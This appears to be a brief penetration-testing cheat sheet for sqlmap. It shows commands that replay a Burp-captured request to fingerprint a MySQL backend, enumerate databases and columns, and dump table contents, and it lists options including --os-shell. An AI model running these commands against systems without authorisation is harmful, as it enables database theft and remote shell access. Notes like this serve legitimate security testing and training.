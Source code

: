 # SQLMAP

## GET Request

## POST Request

## Request file from Burp
```
Intercept a request from Burp with all of hte parameters (save as .req)
 $sqlmap -r <name of request file.req> --dbms=mysql --banner
 $sqlmap -r <name of request file.req> --dbms=mysql --dbs
 $sqlmap -r <name of request file.req> --dbms=mysql -D <name of db> --columns
 $sqlmap -r <name of request file.req> --dbms=mysql -D <name of db> -C --dump

-A = all
-D = database
-T = tables
-C = columns
--dump
--os-shell
```
